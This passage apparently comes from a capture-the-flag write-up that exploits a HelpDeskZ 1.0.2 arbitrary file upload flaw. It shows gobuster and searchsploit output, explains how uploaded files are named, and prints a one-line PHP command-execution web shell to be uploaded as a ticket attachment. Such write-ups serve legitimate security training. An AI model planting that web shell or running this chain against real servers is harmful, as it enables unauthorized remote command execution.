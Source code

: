 ```
/UPGRADING.txt (Status: 200)
/controllers (Status: 301)
```

While that runs, we notice that we are able to create support tickets which include an attachment component, using searchsploit we find that there are bot unauthenticated and authenticated file upload vulnerabilities for certain versions. Quickly scanning back to the /support gobuster results we see a result for /UPGRADING.txt:
![232980491.png]({{site.baseurl}}/Images/Help/232980491.png)

We can see that the server is running version 1.0.2 which is vulnerable to our searchsploit results.
```
root@kali: searchsploit helpdeskz
----------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                 |  Path (/usr/share/exploitdb/)
----------------------------------------------------------------------------------------------- ----------------------------------------
HelpDeskZ 1.0.2 - Arbitrary File Upload                                                        | exploits/php/webapps/40300.py
HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download                 | exploits/php/webapps/41200.py
----------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
Papers: No Result
```
Arbitrary file upload looks good, that could allow us to upload a shell, so we start by mirroring the script to our current working directory with `searchsploit -m 40300` and take a look.

Reading through the help text blurb at the top of the file, we get the usage info as well as how to perform the attack. Looks like we need to work out where the files will be uploaded to and then it loops and guesses the file name based on the current time and original file name. 

Luckily for us the additional gibuster might have paid off, it has found a /uploads directory. To fully understand how the exploit works and if we need to change any code the help text also provides a link to where the vulnerable code in the source application exists.. On line 141 of the [submit_ticket_controller.php file](https://github.com/evolutionscript/HelpDeskZ-1.0/blob/006662bb856e126a38f2bb76df44a2e4e3d37350/controllers/submit_ticket_controller.php) 

Looking at the code, the application takes the file, renames it with an MD5 string and saves it to `[UPLOAD_DIR]/tickets/`

Now that we have  the knowledge of everything we need, its time to figure out a payload. Since this is a php web application it might be able to use our cmd.php script bundled with seclists and is a common web shell:
```
<?php echo system($_REQUEST['cmd']); ?>
```
We set up the submit ticket form ready to go with random data to fill the required fields, enter the captcha so everything is ready to go.
![233111575.png]({{site.baseurl}}/Images/Help/233111575.png)

